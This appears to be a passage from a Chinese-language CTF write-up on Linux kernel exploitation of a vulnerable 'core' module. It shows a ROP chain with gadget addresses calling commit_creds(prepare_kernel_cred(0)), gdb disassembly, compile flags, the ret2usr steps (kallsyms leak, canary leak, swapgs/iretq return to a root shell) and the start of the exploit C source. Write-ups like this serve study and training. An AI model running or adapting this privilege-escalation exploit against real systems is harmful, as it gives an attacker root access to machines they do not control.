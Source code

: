 执行commit_creds(prepare_kernel_cred(0))，给三个gadget分别标号为1、2和3，下面的解释就看的清楚了，需要自己调试一下才清楚。

```assembly
//init: rax = prepare_kernel_cred(0)
//rdx = rop 2
//retn rop 3 mov rdi,rax;call rdx;
//call rop 2 -> pop "cmp rbx,r15" to rcx
 //retn commit_creds
rop[i++] = 0xffffffff810a0f49 + offset; //pop rdx; ret  1
rop[i++] = 0xffffffff81021e53 + offset; //pop rcx; ret  2
rop[i++] = 0xffffffff8101aa6a + offset; //mov rdi,rax; call rdx; 3
rop[i++] = commit_creds;
```

这里加了一个pop rcx是因为rop 3是8个字节的指令，一共有三条指令，完整的如下：

```assembly
gdb-peda$ x /4i 0xffffffff9181aa6a
   0xffffffff9181aa6a:  mov    rdi,rax
   0xffffffff9181aa6d:  call   rdx
   0xffffffff9181aa6f:  cmp    rbx,r15
   0xffffffff9181aa72:  mov    rax,QWORD PTR [rbx]
```

执行完call rdx之后栈里面还有一条指令cmp rbx,r15，因此先pop rcx才能返回到下一个rop也就是commit_creds的地址。

因为有汇编编译使用`-masm`

> gcc -o exp ./exp.c -w -static -masm=intel

### ret2usr

在没有使用KPTI（内核页表隔离）的内核之前都可以使用。

ret2usr的思想主要是虽然用户控件的进程不能访问内核空间，但是反过来内核空间可以访问用户空间的进程，以内核的权限执行用户空间代码来完成提权，上面的解法是在内核空间构造rop来执行commit_creds(prepare_kernel_cred(0))，这种解法是以内核权限调用用户空间的代码。

**利用思路**

1. 读取/tmp/kallsyms泄露函数地址，保存用户空间相关寄存器状态。
2. 利用core_ioctl中的第二条命令设置off的值，再通过函数core_read将v5[off]从内核空间拷贝到用户控件泄露canary。
3. 覆盖返回地址为用户空间代码，该段代码用来执以内核权限执行commit_creds(prepare_kernel_cred(0))获得root权限。
4. 利用swapgs和iretq指令返回用户空间，执行system(“/bin/sh”)起shell。

总的来说比构造rop要简单，执行用户空间代码可以用函数指针来实现，因为我们已经泄露了这两个函数的地址：

```assembly
#include<stdio.h>
#include<sys/types.h>
#include<sys/stat.h>
#include<fcntl.h>


size_t commit_creds = 0, prepare_kernel_cred = 0;

//cat /sys/module/core/sections/.text
//init: setsid /bin/cttyhack setuidgid 0 /bin/sh
size_t raw_vmlinux_base = 0xffffffff81000000;
size_t vmlinux_base = 0;


size_t user_cs,user_ss,user_rflags,user_sp;
void save_status(){
   __asm__("mov user_cs,cs;"
           "mov user_ss,ss;"
           "mov user_sp,rsp;"
           "pushf;"            //push eflags
           "pop user_rflags;"
          );
}
```